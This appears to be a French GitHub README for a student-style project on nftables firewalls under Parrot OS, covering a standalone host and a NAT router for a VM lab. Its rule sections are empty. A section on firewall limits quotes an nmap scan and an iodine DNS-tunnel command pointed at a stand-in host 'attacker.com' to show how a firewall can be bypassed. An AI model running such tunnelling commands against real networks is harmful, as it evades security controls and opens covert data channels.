 ## Objectif du projet

Ce projet présente la configuration de pare-feux avancés sous **Parrot Security OS**, une distribution orientée **pentest** et **protection de la vie privée/anonymat**.

Les démonstrations portent sur les niveaux suivants :

- **Niveau 6 — nftables (avancé, machine seule)**
- **Niveau 7 — nftables (NAT/Lab, routeur pour un lab de VM)**

## Pourquoi Parrot OS ?

- Distribution orientée **pentest** et **vie privée/anonymat**.
- Le pare-feu **UFW** est installé par défaut mais désactivé → à activer/configurer par l’utilisateur.
- Intègre des outils de confidentialité (Tor, Anonsurf, OnionShare).
- Plus légère que Kali, adaptée aux **machines modestes** et à la virtualisation (VirtualBox, VMware).

---

## Niveau 6 (standalone, machine protégée)

## Niveau 7 (NAT / Lab, routeur VM)

---

# 📌 Explications

- **Niveau 6** → protège uniquement ta machine personnelle.
- **Niveau 7** → transforme ta machine en pare-feu + routeur pour un réseau virtuel.

📸 Exemple de capture d’écran (nftables actif en niveau 6) :
![Capture d’écran Niveau 6](images/niveau6.png)

📸 Exemple de capture d’écran (nftables NAT/routeur niveau 7) :
![Capture d’écran Niveau 7](images/niveau7.png)

---

# 🖥️ Démonstrations

➡️ **Application des règles** :

---
# ⚠️ Limites et bonnes pratiques

Un pare-feu réduit la surface d’attaque, mais **il ne protège pas de tout**.
Un attaquant expérimenté peut toujours tenter de :

- Passer par un service autorisé (ex : **SSH, HTTPS**).
- Exploiter une **faille applicative**.
- Utiliser du **tunneling** (DNS, HTTPS).
- Contourner via **IPv6** si mal configuré.

👉 **Conclusion :**
Un firewall seul n’est pas suffisant.
Il doit être combiné avec :
- un **IDS/IPS** (Snort, Suricata),
- du **monitoring** (logs, SIEM),
- et des **bonnes pratiques** : MFA, mises à jour régulières, segmentation réseau, durcissement système.

---

# ⚠️ Comment un hacker pourrait contourner

Même avec un firewall avancé (niveaux 6 et 7), il existe des **techniques de contournement** :

- 🔓 **Exploiter les ports ouverts**
(ex : `nmap -p 443 <cible>` ➝ scanner en HTTPS).

- 🌐 **Tunneling DNS**
(ex : `iodine` ➝ transformer DNS en canal de communication).

- 🐞 **Exploiter des failles applicatives** derrière un port autorisé.

---

👉 **C’est pourquoi un firewall seul ne suffit pas** :
il faut le **combiner avec IDS/IPS + monitoring**.

---

### 📌 Exemple : Tunnel DNS (contournement)

Comme le port **53 (DNS)** est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

---

# 🔑 Différence entre Niveau 6 et Niveau 7

### 🔹 Niveau 6 : Firewall personnel
- Protège uniquement **ta machine locale**.
- Politique stricte : **tout est bloqué sauf quelques services**.
- Idéal pour un **poste de travail** ou un **serveur isolé**.

👉 **Exemple :** ton PC sous Parrot OS n’accepte que le trafic **web** et **SSH**.

---

### 🔹 Niveau 7 : Firewall réseau
- Ta machine devient un **routeur + firewall**.
- Protège **un réseau interne entier**.
- Ajoute le **forwarding + NAT**.

# ✅ Conclusion

Parrot OS est une alternative solide à Kali Linux : plus légère, orientée vie privée et adaptée aux environnements pentest.

Les niveaux 6 et 7 démontrent deux cas concrets :

🔒 **Protection avancée d’une machine individuelle** (standalone).
🌐 **Mise en place d’un routeur/firewall complet** pour un lab réseau.

👉 Ce projet illustre comment un firewall peut évoluer :
d’une **simple protection locale** ➝ à un **composant réseau avancé**.

---

# 🛠️ Technologies utilisées

- Parrot OS
- nftables
- VirtualBox

---

✍️ Auteur : *Virginie Lechene*









